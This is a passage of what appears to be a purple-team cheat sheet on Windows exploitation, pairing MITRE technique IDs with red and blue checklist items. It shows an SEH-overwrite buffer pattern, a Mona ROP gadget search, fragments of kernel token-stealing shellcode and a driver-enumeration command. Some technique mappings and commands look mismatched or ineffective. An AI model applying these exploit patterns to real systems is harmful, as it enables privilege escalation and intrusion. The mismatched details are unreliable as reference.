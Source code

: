 ```python
# SEH chain overwrite pattern  
buf = "A"*500 + "\xeb\x06\x90\x90" + pack("<I", 0x62501203)  
```

#### ROP (Bypass DEP)

MITRE: [T1497](https://attack.mitre.org/techniques/T1497/)

Tools:

```bash
# Find gadgets with Mona (Immunity Debugger)  
!mona rop -m kernel32.dll -cpb "\x00\x0a"  
```

Purple team actions

- [x] Red: Exploit Office macros with SharpShooter.
- [x] Blue: Enforce EMET or WDEG.

## Windows kernel exploits

### Attack paths

#### Token stealing

MITRE: [T1098](https://attack.mitre.org/techniques/T1098/)

Tools:

```c
// Kernel shellcode to steal SYSTEM token  
mov rax, [gs:0x188]      // Current thread  
mov rax, [rax+0xb8]      // EPROCESS  
mov rbx, [rax+0x2e8]     // SYSTEM EPROCESS  
```

#### Driver exploitation

MITRE: [T1068](https://attack.mitre.org/techniques/T1068/)

Tools:

```bash
# Find vulnerable drivers with DriverQuery  
driverquery /v | findstr "UNSAFE"  
```

Purple team actions

- [x] Red: Exploit PrintNightmare.
- [x] Blue: Block vulnerable drivers via HVCI.

## PowerShell & post-exploitation

### Attack paths
